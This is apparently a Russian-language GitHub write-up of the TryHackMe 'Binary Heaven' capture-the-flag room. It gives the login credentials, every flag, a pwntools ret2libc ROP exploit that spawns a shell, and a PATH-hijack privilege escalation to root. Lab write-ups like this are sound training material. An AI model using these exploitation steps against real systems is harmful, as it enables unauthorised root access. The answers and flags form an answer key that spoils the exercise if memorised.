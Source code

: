 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Binary Heaven](https://tryhackme.com/r/room/binaryheaven) 

Всего 5 заданий:
## Задание 1
 Наслаждайтесь раем двоичных файлов, пока можете

ОТДАВАТЬ:

Эта комната также является частью розыгрыша. Те, кто заполнит эту комнату до 10 мая 2021 г. 20:00 GMT+1 (британское 
летнее время), будут участвовать в лотерее. Призы: 3 ваучера на подписку TryHackMe на 1 месяц (любезно 
предоставлены nickapic) и 5 ваучеров на подписку TryHackMe на 1 месяц (любезно предоставлены bushidosan).

Примечание: По очевидным причинам, в течение первых 72 часов после открытия этой комнаты не будет предоставлено 
решение и не будет опубликовано описание. Любой, кто будет пойман на мошенничестве, будет исключен из розыгрыша.

Разверните ВМ и двигайтесь дальше. Пока ВМ полностью загрузится, перейдите к Задаче 2 и начните свое путешествие.

### Ответьте на вопросы ниже
Я развернул виртуальную машину!
```commandline
Ответ не нужен
```

## Задание 2
Чтобы попасть на небеса, нужно сначала показать, достойны вы или нет. Вот два ангела с небес бинарности, подойдите к 
ним с радостью, и вы получите счастье.

Контрольная сумма SHA-256 : 5bdb0828249ef7a8fb84b5040a4ae6735e7c9269ab1f288ca32be1cf5e96d86d

### Ответьте на вопросы ниже
Какое имя пользователя?
```commandline
guardian
```
Какой пароль?
````commandline
GOg0esGrrr!
````
Что такое флаг?
```commandline
THM{crack3d_th3_gu4rd1an}
```

## Задание 3
Сможете ли вы стать бинексбогом?
### Ответьте на вопросы ниже
binexgod_flag.txt
```commandline
ssh guardian@<IP>
GOg0esGrrr!

nano exploit.py

from pwn import *

elf = context.binary = ELF('./pwn_me')
libc = elf.libc
p = process()

#get the leaked address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

#set our libc address according to the leaked address
libc.address = system_leak - libc.sym['system']
log.success('LIBC base: {}'.format(hex(libc.address)))

#get location of binsh from libc
binsh = next(libc.search(b'/bin/sh'))

#build the rop chain
rop = ROP(libc)
rop.raw('A' * 32)
rop.system(binsh)

#send our rop chain
p.sendline(rop.chain())

#Get the shell
p.interactive()

python3 exploit.py
```
```commandline
THM{b1n3xg0d_pwn3d}
```

## Задание 4
Ты стал богом бинекса, но сможешь ли ты получить корневой флаг небес?
### Ответьте на вопросы ниже
корень.txt
```commandline
cd /home/binexgod
echo '#include<stdio.h>
#include<stdlib.h>

int main()
{
  system("/bin/bash");
}' >> echo.c



gcc -o echo echo.c
chmod 777 echo
echo $PATH
export PATH=/tmp:$PATH


./vuln

cat /root/root.txt
```
```commandline
THM{r00t_of_th3_he4v3n}
```

## Задание 5
Поздравляем с завершением комнаты! Мы хотели бы поблагодарить вас за то, что вы потратили время на то, чтобы 
пройтись по этой комнате, на создание которой мы потратили много времени и усилий. Мы искренне надеемся, что вы 
узнали что-то новое. До следующего раза, увидимся!

Если вы обнаружили какую-либо проблему или хотите оставить отзыв, свяжитесь с нами в Discord: swanandx#8944 или Lammm#7495.

Также не стесняйтесь подписываться на нас в Twitter: @swanandx и @Lammm.

### Ответьте на вопросы ниже
Большое спасибо!
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)